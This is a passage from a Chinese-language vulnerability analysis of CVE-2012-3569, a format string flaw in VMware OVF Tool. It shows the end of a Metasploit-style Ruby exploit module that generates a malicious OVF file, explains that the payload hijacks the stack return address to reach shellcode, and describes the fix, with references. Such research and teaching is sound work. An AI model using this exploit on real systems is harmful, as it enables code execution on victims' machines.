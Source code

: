 ```Ruby
    <Disk ovf:capacity="8" ovf:capacityAllocationUnits="#{fs}" ovf:diskId="vmdisk1" ovf:fileRef="file1" ovf:format="https://www.vmware.com/interfaces/specifications/vmdk.html#streamOptimized" />
  </DiskSection>
  <VirtualSystem ovf:id="Small VM">
    <Info>A virtual machine</Info>
  </VirtualSystem>
</Envelope>
    EOF
    ovf_file
  end

  def exploit
    print_status("Creating '#{datastore['FILENAME']}'. This files should be opened with VMMWare OVF 2.1")
    file_create(ovf)
  end
end
```

exp 较短，实际上按照 ovf 文件格式和 ovftool.exe 处理文件的逻辑生成包含了被填充字符包裹的格式化字符串 payload 的恶意文件。具体利用思路为劫持栈帧返回地址使程序执行流跳转到设定好的 shellcode 处，参照注释即可在此不再赘述

## 漏洞修复

使格式化控制字符串为字面量或者不由外界控制即可，漏洞修复思路较为明确而官方补丁变动较大不便分析，故不再赘述

## Reference

[std::basic_ostream](https://en.cppreference.com/w/cpp/io/basic_ostream.html)
[Official Document](https://www.vmware.com/security/advisories/VMSA-2012-0015.html)
[Microsoft Vulnerability Research Advisory MSVR13-002](https://learn.microsoft.com/en-us/security-updates/vulnerabilityresearchadvisories/2013/msvr13-002)
[Github - CVE-2012-3569](github.com/advisories/GHSA-8wg2-73cr-jv3q)
[NVD - CVE-2012-3569](https://nvd.nist.gov/vuln/detail/CVE-2012-3569)
[CVE - CVE-2012-3569](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3569)
[漏洞战争](https://book.douban.com/subject/26830238/)
